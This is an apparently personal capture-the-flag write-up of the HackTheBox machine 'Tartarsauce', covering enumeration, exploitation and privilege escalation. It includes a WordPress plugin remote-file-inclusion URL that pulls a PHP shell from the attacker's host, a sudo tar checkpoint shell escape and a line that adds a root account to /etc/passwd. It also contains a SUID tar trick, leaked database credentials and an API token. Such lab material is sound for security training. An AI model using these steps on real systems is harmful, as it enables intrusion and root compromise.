

# Summary


## about target

tip:  10.129.1.185

hostname:  tartarsauce

Difficulty:  Medium


## about attack

+ web enum, try default creds/weak pwd/dirscan different dir, extension 
+ wpscan, enum all the plugins. 
+ read the instresting scripts, and exploit. 


**attack note**

```bash
Tartarsauce / 10.129.1.185

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

- Enum

-- web  
--- robots.txt

Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/lesxs/


-- local 

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');


sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

-- onuma

python -c 'import pty;pty.spawn("/bin/bash")'

cp bash.tar.gz 

echo 'attacker:$1$TBJpMCue$Uzl02jOSnrQBz40ES6j611:0:0:attacker:/root:/bin/bash' >> /etc/passwd
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
```


## http enum

robots.txt,  5 path

Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/lesxs/


/webservices/monstra-3.0.4/, monstra cms 3.0.4;   Rabbit hole.


dir scan  /webservices, found /wp.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/webservices/ -o gobuster-webservices.log -x php,txt
```


wpscan 

```bash
wpscan --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo --url http://10.129.1.185/webservices/wp -e ap,u
```

found user wpadmin, no plugins. (odd, there are some plugins, eg. Gwolle, which is vulnerable to  get shell.)


# Exploitation

Gwolle plugins vulnerablity, lfi/rfi

http://10.129.53.255/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.78/phpshell

got shell, www-data


# Privesc


## local Enum

www-data, sudo -l; 


exploit tar wildcard, get onuma shell.

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```




found /usr/sbin/backuperer; exploit failed. 

check the scripts.


## System

exploit untar with file user and group property. 

copy /bin/sh to kali.

mkdir var/html/www, copy sh to this dir.

Change owner to root, add suid bit.

tar to tar.gz, copy to target.

wait for backuperer execute, and cp gz file to .xxxxxxxxxx;

Wait for untar,  execute bash.

```bash
mkdir -p var/www/html
cp bash var/www/html
cd var/www/html
sudo chown root:root bash
sudo chmod 6555 bash
cd ../../../
tar -zcvf bash.tar.gz var/

# transfer gz to target via python web
systemctl list-timers  # check the execute time.

ls -al  # once found the file .xxxxx
cp bash.tar.gz .xxxxxx 

cd check/var/www/html
./bash -p 
```


## proof

```bash


```


